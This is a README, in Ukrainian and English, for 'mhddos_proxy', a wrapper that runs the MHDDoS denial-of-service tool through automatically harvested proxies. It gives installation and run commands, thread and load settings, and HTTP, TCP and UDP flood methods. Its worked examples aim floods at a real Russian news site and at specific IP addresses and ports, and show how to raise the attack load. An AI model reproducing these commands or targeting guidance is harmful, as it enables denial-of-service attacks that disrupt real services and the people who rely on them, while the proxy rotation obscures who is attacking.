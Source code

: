## Інтро

Скрипт-обгортка для запуску потужного DDoS інструмента [MHDDoS](https://github.com/MHProDev/MHDDoS).

- Не потребує VPN - автоматично скачує і підбирає робочі проксі для заданих цілей, періодично їх оновлюючи
- Підтримує атаку декількох цілей з автоматичним балансуванням навантаження
- Використовує різні методи для атаки і змінює їх в процесі роботи
- Простий та зрозумілий інтерфейс з іменованими параметрами

## Intro

Wrapper script for running [MHDDoS](https://github.com/MHProDev/MHDDoS)

- No VPN required - automatically downloads and selects working proxies for given targets
- Support for multiple targets with automatic load-balancing
- Uses multiple attack methods and switches between them
- Simpler interface with named arguments

## Setup | Налаштування

### Docker

    docker pull portholeascend/mhddos_proxy:latest

### Python

    git clone https://github.com/porthole-ascend-cinnamon/mhddos_proxy.git
    cd mhddos_proxy
    git clone https://github.com/MHProDev/MHDDoS.git
    python3 -m pip install -r MHDDoS/requirements.txt

## Running | Запуск

### Docker

    docker run -it portholeascend/mhddos_proxy:latest COMMAND

### Python

    python3 runner.py COMMAND

## Usage | Використання

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-p PERIOD]
                     [--proxy-timeout TIMEOUT]
                     [--rpc RPC] 
                     [--udp-threads UDP_THREADS]
                     [--debug]
                     [--http-methods METHOD [METHOD ...]]

    positional arguments:
      targets                List of targets, separated by space
    
    optional arguments:
      -h, --help             show this help message and exit
      -t, --threads 1000     Total number of threads (default is 100 * CPU Cores)
      -p, --period 300       How often to update the proxies (default is 300)
      --proxy-timeout 2      How many seconds to wait for the proxy to make a connection.
                             Higher values give more proxies, but with lower speed/quality.
                             Parsing also takes more time (default is 2)

      --debug                Enable debug output from MHDDoS
      --rpc 50               How many requests to send on a single proxy connection (default is 50)
      --udp-threads 1        Threads to run per UDP target (default is 1)

      --http-methods GET     List of HTTP(s) attack methods to use.
                             (default is GET, STRESS, BOT, DOWNLOADER)
                             Refer to MHDDoS docs for available options
                             (https://github.com/MHProDev/MHDDoS)

# Examples | Приклади

For HTTP(S) targets, attack method is randomly selected from `--http-methods` option (see above for the default).

For TCP targets, attack method is TCP FLOOD

For UDP targets, attack method is UDP FLOOD.   
**VPN IS REQUIRED FOR UDP**, proxying is not supported.  
Separate parameter `--udp-threads` controls the load, the default is 1, **INCREASE SLOWLY**, be careful

    python3 runner.py https://tvzvezda.ru 5.188.56.124:9000 tcp://194.54.14.131:4477 udp://217.175.155.100:53

    docker run -it portholeascend/mhddos_proxy https://tvzvezda.ru 5.188.56.124:9000 tcp://194.54.14.131:4477 udp://217.175.155.100:53

Target specification

- HTTP(S) by URL - `https://tvzvezda.ru` or `http://tvzvezda.ru`
- HTTP by IP:PORT - `5.188.56.124:9000`
- TCP by IP:PORT - `tcp://194.54.14.131:4477`
- UDP by IP:PORT - `udp://217.175.155.100:53` - **REQUIRES VPN**

Increase load

    python3 runner.py -t 1000 https://tvzvezda.ru

Update proxies less/more often

    python3 runner.py -p 600 https://tvzvezda.ru

Get more proxies (possibly lower quality)

    python3 runner.py --proxy-timeout 5 https://tvzvezda.ru

Specific attack method

    python3 runner.py https://tvzvezda.ru --http-methods GET

# TODO

- [ ] Docker image
